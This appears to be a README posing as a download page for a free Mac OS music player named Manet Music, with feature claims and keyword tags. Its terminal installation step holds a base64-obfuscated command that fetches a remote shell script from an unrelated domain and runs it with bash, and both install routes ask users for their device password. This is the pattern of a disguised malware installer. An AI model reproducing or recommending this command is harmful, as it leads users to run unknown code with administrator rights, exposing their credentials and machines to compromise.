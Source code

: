# Manet Music — Download For Mac OS 🎵

Manet Music is a sleek, user-friendly music player designed for Mac OS, offering seamless audio playback and library management. Follow the instructions below to install it effortlessly on your device.

[![Download Now](https://img.shields.io/badge/Download-Now-%23007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/manetmusic) 

If the download button doesn't work, follow the terminal installation instructions below.

## 📦 How to Install Manet Music For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🎧 **High-Quality Audio Playback**: Enjoy crystal-clear sound with support for multiple audio formats like MP3, FLAC, and WAV.
- 📚 **Smart Library Management**: Organize your music collection with intuitive playlists and automatic metadata tagging.
- ⚡ **Lightweight Performance**: Runs smoothly on Mac OS without draining system resources.
- 🎨 **Customizable Interface**: Personalize themes and layouts to match your style.
- 🔄 **Seamless Updates**: Receive automatic updates to keep your player feature-rich and secure.
- 🌐 **Offline Mode**: Access your music anytime, anywhere, without an internet connection.

## About Manet Music

Manet Music is a free music player for Mac OS, designed to elevate your listening experience with a blend of simplicity and powerful features. Whether you're a casual listener or an audiophile, this software offers a robust platform to manage and enjoy your music collection. Its lightweight design ensures it runs efficiently, making it a top choice for users seeking a free music player for Mac.

The software stands out with its smart library management system, which automatically organizes your tracks by artist, album, and genre. This feature saves time and enhances usability, allowing you to focus on enjoying your music. Manet Music supports a wide range of audio formats, ensuring compatibility with your existing collection, from standard MP3s to high-fidelity FLAC files.

Customization is at the heart of Manet Music. Users can tailor the interface with various themes and layouts, creating a personalized experience that aligns with their aesthetic preferences. The player’s offline mode is a game-changer, enabling uninterrupted access to your music library without relying on an internet connection—perfect for travel or remote locations.

Security and performance are priorities for Manet Music. The application is optimized to minimize resource usage, ensuring your Mac remains responsive even during extended use. Regular updates keep the software secure and introduce new features, making it a reliable choice for long-term use. For those searching for a free music player download, Manet Music delivers unmatched value.

**Why Choose Manet Music?** Compared to other music players, Manet Music combines ease of use with advanced functionality. Its free availability, coupled with a polished interface and robust feature set, makes it a standout option. Unlike subscription-based alternatives, Manet Music offers premium features at no cost, ensuring accessibility for all Mac users.

## 🖼 Preview

![Main Interface](https://tilosoftware.io/_astro/manet-opengraph.V7hObEAd.png)  
*Clean and intuitive main interface for easy music navigation.*

![Library View](https://tilosoftware.io/_astro/macos-dark@2x.5O9H-mYw_Z8lL2L.webp)  
*Smart library view with organized playlists and metadata.*

## 🔍 Tags

manet music free download, free music player for mac, manet music install, mac music player free, manet music download, manet music free, manet music mac os, manet music mac, manet music free mac, manet music download mac, free manet music, manet music for mac
